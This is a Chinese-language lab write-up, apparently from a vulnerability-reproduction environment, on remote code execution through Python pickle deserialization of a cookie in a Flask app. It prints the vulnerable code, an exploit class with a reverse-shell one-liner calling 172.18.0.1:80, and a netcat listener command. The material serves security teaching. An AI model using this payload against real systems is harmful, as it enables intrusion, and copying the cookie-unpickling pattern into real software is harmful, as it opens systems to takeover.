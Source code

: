 # Python Unpickle 反序列化远程代码执行漏洞

Python的pickle模块是一个流行的序列化/反序列化工具，可以将Python对象转换为字节流，反之亦然。然而，当使用pickle反序列化不受信任的数据时，可能导致任意代码执行。

当应用程序在没有适当验证的情况下使用pickle模块反序列化用户可控数据时，就会出现此漏洞。攻击者可以构造恶意序列化对象，在反序列化时在目标系统上执行任意命令。

参考链接：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## 环境搭建

执行以下命令启动存在漏洞的Flask应用：

```
docker compose build
docker compose up -d
```

环境启动后，可以在浏览器中访问`http://your-ip:8000`。页面将显示`Hello {username}!`，其中username是从'user' cookie中获取的。应用程序对此cookie执行base64解码和反序列化以提取"username"变量。如果没有找到有效的cookie，则默认为"Guest"。

app.py中的漏洞代码如下：

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## 漏洞复现

要利用此漏洞，我们需要创建一个恶意的pickle对象，该对象在反序列化时将执行任意命令。该利用使用Python的`__reduce__`方法来指定对象被反序列化时要调用的函数。

提供的利用脚本(exp.py)创建了一个恶意pickle对象，该对象建立与攻击者机器的反向shell连接：

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

要执行此利用，首先在您的机器上设置netcat监听器以接收反向shell：

```bash
nc -lvp 80

# 在 Mac 上，因为 macOS 自带的是 BSD 版本的 netcat，而不是 GNU 版本，所以一些参数可能不兼容，你只需要
nc -lv 80
```

然后运行利用脚本，将恶意cookie发送到存在漏洞的应用程序：

```bash
python3 exp.py
```

当服务器反序列化恶意pickle对象时，它将执行命令并建立与您机器的反向shell连接：

![反向Shell演示](1.png)

在 Mac 上测试的结果：

![Mac上反向Shell演示](mac.png)